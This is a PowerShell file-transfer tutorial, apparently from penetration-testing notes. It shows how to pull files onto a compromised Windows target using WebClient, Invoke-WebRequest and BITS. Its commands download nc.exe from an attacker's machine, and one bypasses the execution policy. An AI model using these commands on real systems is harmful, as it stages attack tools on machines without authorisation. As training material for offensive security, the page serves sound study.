

Cyber Security
Cyber Security
PowerShell - File Transfert¶
PowerShell scripting language offers multiple ways to download files from remote locations.
File Transfert : Invoke-WebRequest¶
The Invoke-WebRequest cmdlet is simple and easy to use and is available in PowerShell version 3.0 and higher. However, it does come with a few disadvantages.
It is very slow compared to the other PowerShell methods we considered. This cmdlet takes a huge performance hit because the HTTP response stream is first buffered into memory and flushed to disk only once it’s fully loaded.
Downloading large files with this method may cause potential memory issues. That is why we recommend using the System.Net.WebClient method for transferring larger files.
{kind=link}
{kind=link}
File Transfert : System.Net.WebClient¶
In this section, we will look at uses the .NET class System.Net.WebClient.
In this example we will build the PowerShell script line by line from the cmd shell. With this approche it is possible to create the script directly from the compromised target.
Note
The following commands create a PowerShell script on the remote Windows machine that can be used to download the file from the attack box.
1 echo $webclient = New-Object System.Net.WebClient > httpdownload.ps1 2 echo $webclient.DownloadFile("[Download URL]","[File Name]") >> httpdownload.ps1Note that you have to insert the download link ([Download URL])and file name ([File Name]) in the command on the last line and replace all the text (including brackets) with the URL and file name.
Once the PowerShell has been created successfully, we can use the type command to view the contents:
{kind=link}
{kind=link}
{kind=link}
In this example we have provided a URI for the nc.exe binary from our attack machine to the DownloadFile function.
Note
Once verified that the PowerShell script is successfully created, you can execute the script.
1 powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File httpdownload.ps1As we can see on the screenshot, the nc.exe binary was successfully downloaded from our attack box to the target host.
{kind=link}
Alternatively, we can also execute this command from a regular command line in Windows using PowerShell to download files without creating a script.
Note
The -c option executes the command provided within the double quotes with PowerShell.
1 powershell -c "(new-object System.Net.WebClient).DownloadFile('http://172.16.3.1/nc.exe','nc.exe')"
{kind=link}
File Transfert : Start-BitsTransfert¶
Another way to download files with PowerShell is by using the B**ackground **I**ntelligent **T**ransfer **S**ervice (**BITS). The Start-BitsTransfer cmdlet creates a BITS transfer job to transfer one or more files between a client computer and a server. Using BITS for file transfers has some major advantages over other methods. BITS allows you to limit the amount bandwidth for a file transfer, to process multiple downloads, to set a web proxy and it doesn’t rely on Internet Explorer in the way that the Invoke-WebRequest (PowerShell 3.0 and up) cmdlet does. Another benefit of BITS is that it only uses idle network bandwidth instead of the whole bandwidth as many other file transfer services do. BITS can, therefore, be used to process large files without affecting other network applications. BITS transfers are also more reliable because transfers will continue when a user changes network connection or restarts the computer.
Unfortunately using BITS for file transfers also has a few disadvantages. One potential downside is that BITS has to be enabled on the target machine in order to work. However, since BITS is usually enabled by default this won’t cause much of an issue unless it’s actively managed by system administrators. Another potential downside (which we also counted as an advantage above), is that BITS only uses idle bandwidth and this may affect the total process time for the file transfer where available bandwidth is limited. BITS is also designed to process file transfers in the background so your BITS job may end up being in a queue waiting for a running job to complete.
Note
Start-BitsTransfer
As this method only uses 2 lines of code we will execute this script on a single line from the command line. As a minimum we need to specify a source and destination for the download.
1 powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://[IP Attack box]/nc.exe -Destination C:\
{kind=link}